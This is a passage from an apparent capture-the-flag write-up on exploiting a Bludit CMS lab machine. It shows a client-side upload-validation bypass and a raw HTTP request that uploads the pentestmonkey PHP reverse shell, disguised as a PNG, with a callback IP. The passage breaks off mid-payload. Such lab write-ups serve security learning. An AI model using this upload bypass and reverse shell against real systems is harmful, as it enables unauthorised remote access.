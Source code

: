 ![img](./img/10.png)

- Get the www account access
	
	As the upload validation only applies on the client-side, thus, using the burp to change the upload parameters (value of filename), the PHP reverse shell and the **.htaccess** files are uploaded to the **/tmp/** folder. I can execute the reverse shell PHP by visiting the http://10.10.10.191/bl-content/tmp/reverse.php

	```
	POST /admin/ajax/upload-images HTTP/1.1
	Host: 10.10.10.191
	User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
	Accept: */*
	Accept-Language: en-US,en;q=0.5
	Accept-Encoding: gzip, deflate
	Referer: http://10.10.10.191/admin/new-content
	X-Requested-With: XMLHttpRequest
	Content-Type: multipart/form-data; boundary=---------------------------1577569979961725874602175024
	Content-Length: 11616
	Connection: close
	Cookie: BLUDIT-KEY=ngp0psekevm7je3hnrlhjmkj57
	-----------------------------1577569979961725874602175024
	Content-Disposition: form-data; name="images[]"; filename="reverse.png"
	Content-Type: image/png
	.....
	.....
	<?php
	// php-reverse-shell - A Reverse Shell implementation in PHP
	// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
	.....
	.....
	// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.
	set_time_limit (0);
	$VERSION = "1.0";
	$ip = '10.10.14.16';  // CHANGE THIS
